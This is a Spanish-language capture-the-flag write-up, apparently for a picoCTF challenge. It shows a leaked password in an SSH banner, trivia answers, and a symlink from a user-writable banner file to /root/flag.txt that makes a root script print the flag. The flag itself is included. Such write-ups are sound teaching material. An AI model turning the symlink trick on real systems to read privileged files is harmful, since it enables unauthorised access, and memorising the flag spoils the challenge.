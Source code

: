 # Descripción

Hints:
1. Do you know about symlinks?
2. Maybe some small password cracking or guessing

# Solución
- Me conecto al primer puerto que me da
```
┌──(kali㉿kali)-[~/hacking]
└─$ nc tethys.picoctf.net 60975
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```
- Veo que me da una contraseña, así que me salgo y me conecto al siguiente puerto
```
┌──(kali㉿kali)-[~/hacking]
└─$ nc tethys.picoctf.net 57183
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
```
- Me hace algunas preguntas, investigué en google las respuestas
- Ahora me deja conectarme al puerto
- Veo que archivos hay usando ls
```
player@challenge:~$ ls -la
ls -la
total 20
drwxr-xr-x 1 player player   20 Mar  9  2024 .
drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7  2024 banner
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
player@challenge:~$ cat text    
cat text
keep digging
```
- Le hago un cat a text y me dice que siga indagando
- Veo los archivos en el root
```
player@challenge:~$ ls -la /root
ls -la /root
total 16
drwxr-xr-x 1 root root    6 Mar 12  2024 .
drwxr-xr-x 1 root root   29 Apr 15 17:51 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar 12  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
```
- Veo que hay un archivo con extensión .py
- Le hago un cat para ver que contiene, encontraré algunas cosas interesantes
```
player@challenge:~$ cat /root/script.py
cat /root/script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```
- Sigo las instrucciones que hay en el archivo, me salgo de la conexión, me vuelvo a conectar y me dará la bandera
```
player@challenge:~$ rm /home/player/banner 
rm /home/player/banner
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
player@challenge:~$ ^C
                                                                                                       
┌──(kali㉿kali)-[~/hacking]
└─$ nc tethys.picoctf.net 57183
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}

what is the password? 

picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}
```
# Notas adicionales
# Referencias